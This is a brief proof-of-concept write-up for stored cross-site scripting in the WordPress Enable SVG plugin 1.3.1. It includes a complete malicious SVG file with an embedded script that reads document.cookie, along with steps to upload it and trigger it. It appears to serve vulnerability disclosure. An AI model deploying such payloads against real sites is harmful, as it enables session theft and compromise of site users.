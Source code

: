 # Cross Site Scripting Through SVG Files in Enable SVG Wordpress Plugin

This PoC describe how to exploit a Cross-Site Scripting (XSS) in - Wordpress Enable SVG version 1.3.1

# Description

Enable SVG v1.3.1 plugin for Wordpress does not sanitize the SVG Files, so it is possible to upload a malicious SVG File to get a XSS.

![1](https://user-images.githubusercontent.com/70114276/166156420-9dfb6566-24fc-4687-bced-bdf763682884.png)

![2](https://user-images.githubusercontent.com/70114276/166156424-61bac93c-9cb2-4826-98ee-b275cea20650.png)

## Attack Scenario

First we create our SVG file with this content:

![image](https://user-images.githubusercontent.com/70114276/166156512-3992cceb-1c65-468e-8fd2-909981f70ffe.png)

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

Then we upload the file to WordPress

![image](https://user-images.githubusercontent.com/70114276/166156346-fdba90d1-d67d-4124-adf3-c8c1177f4db3.png)

To validate the PoC, simply access the directory where the file was sent.

![image](https://user-images.githubusercontent.com/70114276/166156294-59e3d5b1-20d0-4e41-bcfd-7861bb0dbfb7.png)
